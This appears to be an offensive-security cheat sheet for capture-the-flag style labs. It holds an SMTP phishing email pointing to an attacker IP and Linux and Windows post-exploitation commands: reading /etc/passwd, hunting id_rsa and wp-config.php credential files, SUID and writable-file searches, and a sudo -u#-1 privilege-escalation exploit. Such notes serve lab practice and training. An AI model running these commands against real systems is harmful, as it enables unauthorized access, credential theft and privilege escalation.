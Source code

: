 ```

DATA
From: <administrator@mailing.htb>
To: <administrator@mailing.htb>
Subject: Telnet email

Click here: http://10.10.14.64:8000/test
.
QUIT
```

## Linux

Valid users: `cat /etc/passwd | grep 'home\|root'`

OS: `cat /etc/*release*`

Kernel: `uname -mra ` or `cat /proc/version`

Open Ports:`netstat -antup`

Recursive look for sensitive files under /home/ directory: `ls -laR /home`

Interesting binaries with SUID: `find / -perm -u=s -type f 2>/dev/null`

Sensitive readable files: `find / -name id_rsa 2> /dev/null` or `find / \( -name id_rsa -o -name authorized_keys -o -name wp-config.php\) 2> /dev/null`

Find Writable files: ``find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null``

Find folder or file recursively: `find / -name '.git' 2>/dev/null`

Find Cronjobs: `cat /etc/cron*` better yet, download binary x to find hidden cronjobs

If sudo version is version 1.8.27 and user is able to run bash as sudo: `sudo -u#-1 /bin/bash`
Example of vulnerable sudoer:
```
User bob may run the following commands on DANTE-NIX04:
    (ALL, !root) /bin/bash
```

CEWL a website for potential password dictionary attack: `cewl http://10.0.0.1/wordpress/ >> cwl.pass`

WFUZZ for a file: `wfuzz -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --filter "c=200" http://10.0.0.1/wordpress/FUZZ.config`

## Windows

System Information: `systeminfo`

Enumerate all users in the domain: `net user /domain`

Enumerate specific account in the domain: `net user bob`

Privileges: `whoami /all`
